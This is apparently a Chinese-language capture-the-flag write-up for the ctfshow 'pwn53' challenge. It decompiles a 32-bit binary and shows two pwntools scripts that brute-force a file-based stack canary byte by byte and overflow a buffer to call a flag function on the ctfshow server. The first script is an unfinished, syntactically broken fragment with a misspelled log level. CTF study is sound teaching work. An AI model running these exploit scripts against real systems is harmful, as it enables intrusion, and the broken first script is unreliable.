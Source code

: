 ```
tasike@tasike-VM:~/Desktop$ chmod 777 pwn53
```

```
tasike@tasike-VM:~/Desktop$ file pwn53
pwn53: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6b99653799eba7916f9b35c7a4eeb0eb697bceb7, not stripped
```

```
tasike@tasike-VM:~/Desktop$ checksec pwn53
[*] '/home/tasike/Desktop/pwn53'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

`32bit`，没有开启`栈保护`，堆栈不可执行

`ida`查看

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  logo(&argc);
  canary();
  ctfshow();
  return 0;
}
```

跟进`canary`

```c
int canary()
{
  FILE *stream; // [esp+Ch] [ebp-Ch]

  stream = fopen("/canary.txt", "r");
  if ( !stream )
  {
    puts("/canary.txt: No such file or directory.");
    exit(0);
  }
  fread(&global_canary, 1u, 4u, stream);
  return fclose(stream);
}
```

> 把`canary.txt`以只读的模式打开，打开成功则返回`FILE*`指针给`stream`；
>
> 
>
> `fread`函数是一个在C语言中常用的文件读取函数，它的原型是：`size_t fread(void *buffer, size_t size, size_t count, FILE *stream)`。这个函数从指定的文件流中读取数据，最多可以读取count个项，每个项的大小为size个字节。
>
>  
>
> 从`stream`文件流中读取4个字节的数据到全局变量`global_canary`中。

跟进`ctfshow`

```c
int ctfshow()
{
  size_t nbytes; // [esp+4h] [ebp-54h] BYREF
  char v2[32]; // [esp+8h] [ebp-50h] BYREF
  char buf[32]; // [esp+28h] [ebp-30h] BYREF
  int s1; // [esp+48h] [ebp-10h] BYREF
  int v5; // [esp+4Ch] [ebp-Ch]

  v5 = 0;
  s1 = global_canary;
  printf("How many bytes do you want to write to the buffer?\n>");
  while ( v5 <= 31 )
  {
    read(0, &v2[v5], 1u);
    if ( v2[v5] == 10 )
      break;
    ++v5;
  }
  __isoc99_sscanf(v2, "%d", &nbytes);
  printf("$ ");
  read(0, buf, nbytes);
  if ( memcmp(&s1, &global_canary, 4u) )
  {
    puts("Error *** Stack Smashing Detected *** : Canary Value Incorrect!");
    exit(-1);
  }
  puts("Where is the flag?");
  return fflush(stdout);
}
```

> 第10行：把`global_canary`的值赋给`s1`，由于`s1`是`int`，因此可以猜测之前`canary`函数中用`fread`读入`global_canary`的数据就是一个`int`类型的数据。
>
>  
>
> 第12~18行：读入字符到`v2`字符数组中，除非有换行符(ASCII码为10)，否则将读满`v2`
>
>  
>
> 第19行：从字符串`v2`中读取一个`%d`对应类型的数据（`int`类型）到`nbytes`中。
>
>  
>
> 第21行：从标准输入（文件描述符为0）读取`nbytes`字节的数据到`buf`中。
>
>  
>
> 因此第12~21行就输入一个数字就行，然后输入的这个数字就表示要写多少个字节的数据到`buf`中。
>
>  
>
> `memcmp(&s1, &global_canary, 4u)` 是一个C语言函数调用，用于比较两个内存区域的内容。它接受三个参数：
>
> 1. `&s1`：指向第一个内存区域的指针。
> 2. `&global_canary`：指向第二个内存区域的指针。
> 3. `4u`：要比较的字节数。
>
> 该函数将逐个字节地比较两个内存区域的内容，并返回一个整数。如果两个内存区域的内容完全相同，则返回0；如果第一个内存区域的内容小于第二个内存区域的内容，则返回负数；如果第一个内存区域的内容大于第二个内存区域的内容，则返回正数。
>
> 因此第22行显然是`if(0)`

可以在函数表中找到一个`flag`函数

```c
int flag()
{
  char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("/ctfshow_flag", "r");
  if ( !stream )
  {
    puts("/ctfshow_flag: No such file or directory.");
    exit(0);
  }
  fgets(s, 64, stream);
  puts(s);
  return fflush(stdout);
}
```

> 显然只要执行`flag`函数就可以得到`flag`

显然能利用的溢出就是`ctfshow`函数中第21行，因此考虑`cyclic(0x30 + 0x4) + p32(flag)`，但是需要注意的是，`s1`与`ebp`距离`0x10`，直接利用`cyclic(0x30 + 0x4)`显然会覆盖`s1`，那么`ctfshow`函数中的第22行就不能保证`if(0)`。

因此，为了不覆盖`s1`，我们需要知道`s1`之前的值，假设之前的值是`num`，那么应构造`cyclic(0x20) + 'num' + cyclic(0x4) + p32(flag)`。

由于`s1`是`unsigned int`类型（因为一般canary不会是负的吧）的，因此直接爆破出`s1`即可`[0x00,0xFFFFFFFF)`。

`nbytes`取`0x20 + p32 + 0x4 + p32 = 44`



编写`attack53.py`

```python
from pwn import *
context(os = 'Linux', arch = 'i386', log_level = 'criticle')  # 将日志级别设置为'critical'意味着只有严重的错误或关键事件才会被记录。

flag = 0x08048696

for canary in range(0xFFFFFFFF):
    r = remote('pwn.challenge.ctf.show', 28125)
	r.sendline("44")
	payload = cyclic(0x20) + p32(canary) + cyclic(0x4) + p32(flag)
    
```



```python
from pwn import *

context.log_level = 'critical'

canary = ''

for i in range(4):	
    for c in range(0xFF):
        io = remote('pwn.challenge.ctf.show', 28130)
        io.sendlineafter('>', '-1')
        payload = 'a' * 0x20 + canary + chr(c)
        io.sendafter('$ ', payload)
        io.recv(1)
        ans = io.recv()
        print(ans)

        if b'Canary Value Incorrect!' not in ans:
            print('The index({}),value({})'.format(i, c))
            canary += chr(c)
            break

        else:
            print('tring... ...')

        io.close()

print('canary=', canary)

io = remote('pwn.challenge.ctf.show', 28130)
elf = ELF('./pwn53')
flag = elf.sym['flag']
payload = cyclic(0x20) + canary.encode() + p32(0) * 4 + p32(flag)
io.sendlineafter('>', '-1')
io.sendafter('$ ', payload)
io.interactive()

```

